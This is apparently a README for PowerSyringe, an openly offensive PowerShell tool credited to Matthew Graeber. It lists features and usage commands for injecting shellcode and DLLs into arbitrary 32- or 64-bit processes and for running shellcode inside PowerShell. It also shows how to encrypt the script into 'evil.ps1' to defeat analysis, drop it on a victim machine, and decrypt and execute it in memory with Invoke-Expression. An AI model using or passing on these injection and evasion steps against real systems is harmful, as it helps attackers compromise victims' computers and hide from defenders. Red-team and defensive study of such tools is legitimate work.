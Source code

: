 # PowerSyringe.ps1

Code was downloaded and imported here. All credit goes to Matthew Graeber. This project is licensed under a Creative Commons Attribution 3.0 Unported License.

http://www.exploit-monday.com/2011/11/powersyringe-powershell-based-codedll.html

----

Here is a rundown of its features:

* Shellcode injection from within Powershell
* Shellcode injection into any 32 or 64-bit process
* DLL injection into any 32 or 64-bit process
* Encryption - The script can encrypt itself and outputs the encrypted version to .\evil.ps1. This will make analysis of the script impossible/improbable without the correct password and salt (or if they happen to perform live memory forensics). >D
* Decryption - evil.ps1 will decrypt itself back into its original form if you provide the right password and salt
* Doesn't flag DEP b/c it doesn't execute in the stack
* Fairly detailed documentation

----

#Example   
Here is an excerpt of the documentation with usage examples:

**DLL Injection**  
C:\PS>PowerSyringe 1 4274 .\evil.dll

**Description**  
Inject 'evil.dll' into process ID 4274.

**Inject shellcode into process**  
C:\PS>PowerSyringe 2 4274

**Description**  
Inject the shellcode as defined in the script into process ID 4274

**Execute shellcode within the context of PowerShell**  
C:\PS>PowerSyringe 3

**Description**  
Execute the shellcode as defined in the script within the context of Powershell.

**Encrypt the script with the password:'password' and salt:'salty'**  
C:\PS>PowerSyringe 4 .\PowerSyringe.ps1 password salty

**Description**  
Encrypt the contents of this file with a password and salt. This will make analysis of the script impossible without the correct password and salt combination. This command will generate evil.ps1 that can dropped onto the victim machine. It only consists of a decryption function 'de' and the base64-encoded ciphertext.

*Note: This command can be used to encrypt any text-based file/script*

**Decrypt encrypted script and execute it in memory**  
C:\PS>[String] $cmd = Get-Content .\evil.ps1  
C:\PS>Invoke-Expression $cmd  
C:\PS>$decrypted = de password salt  
C:\PS>Invoke-Expression $decrypted  

**Description**  
After you run the encryption option and generate evil.ps1 these commands will decrypt and execute  
(i.e. define the function) PowerSyringe entirely in memory assuming you provided the proper password and salt combination.

Upon successful completion of these commands, you can execute PowerSyringe as normal.

Note: "Invoke-Expression $decrypted" may generate an error. Just ignore it. PowerSyringe will still work.
